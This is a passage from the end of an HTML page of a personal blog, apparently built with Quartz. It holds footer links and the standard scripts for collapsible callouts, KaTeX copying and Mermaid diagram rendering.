2024</p><ul><li><a href="https://github.com/trganda">GitHub</a></li><li><a href="https://www.trganda.top/index.xml">RSS</a></li></ul></footer></div></body><script src="https://cdnjs.cloudflare.com/ajax/libs/KaTeX/0.16.9/contrib/copy-tex.min.js" type="application/javascript"></script><script type="application/javascript">function c(){let t=this.parentElement;t.classList.toggle("is-collapsed");let l=t.classList.contains("is-collapsed")?this.scrollHeight:t.scrollHeight;t.style.maxHeight=l+"px";let o=t,e=t.parentElement;for(;e;){if(!e.classList.contains("callout"))return;let n=e.classList.contains("is-collapsed")?e.scrollHeight:e.scrollHeight+o.scrollHeight;e.style.maxHeight=n+"px",o=e,e=e.parentElement}}function i(){let t=document.getElementsByClassName("callout is-collapsible");for(let s of t){let l=s.firstElementChild;if(l){l.addEventListener("click",c),window.addCleanup(()=>l.removeEventListener("click",c));let e=s.classList.contains("is-collapsed")?l.scrollHeight:s.scrollHeight;s.style.maxHeight=e+"px"}}}document.addEventListener("nav",i);window.addEventListener("resize",i);
</script><script type="module">
          let mermaidImport = undefined
          document.addEventListener('nav', async () => {
            if (document.querySelector("code.mermaid")) {
              mermaidImport ||= await import('https://cdnjs.cloudflare.com/ajax/libs/mermaid/10.7.0/mermaid.esm.min.mjs')
              const mermaid = mermaidImport.default
              const darkMode = document.documentElement.getAttribute('saved-theme') === 'dark'
              mermaid.initialize({
                startOnLoad: false,
                securityLevel: 'loose',
                theme: darkMode ? 'dark' : 'default'
              })

              await mermaid.run({
                querySelector: '.mermaid'
              })
            }
          });
          </script><script src="../../../postscript.js" type="module"></script></html>